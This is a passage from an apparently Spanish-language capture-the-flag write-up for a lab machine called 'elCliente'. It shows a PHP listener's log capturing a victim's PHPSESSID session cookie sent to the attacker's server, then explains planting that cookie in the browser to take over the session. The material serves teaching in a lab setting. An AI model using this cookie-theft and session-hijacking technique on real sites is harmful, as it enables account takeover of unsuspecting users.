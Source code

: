 <p align="center">
<img src="/assets/images/THL-writeup-elCliente/Captura8.png">
</p>

Observa el servidor de **PHP**:
```bash
php -S 0.0.0.0:8088
[Thu Oct 16 0:58:55 2025] PHP 8.4.11 Development Server (http://0.0.0.0:8088) started
[Thu Oct 16 01:05:03 2025] 192.168.100.170:49232 Accepted
[Thu Oct 16 01:05:03 2025] 192.168.100.170:49232 [404]: GET /Cookie/PHPSESSID=5a2tbfvupdp6bs100k6bjcltlg - No such file or directory
[Thu Oct 16 01:05:03 2025] 192.168.100.170:49232 Closing
[Thu Oct 16 01:05:03 2025] 192.168.100.170:49234 Accepted
...
```
Tenemos una cookie.

Cópiala y utiliza la herramienta **Inspección** de tu navegador para agregar esa cookie en la sección **Storage**:

<p align="center">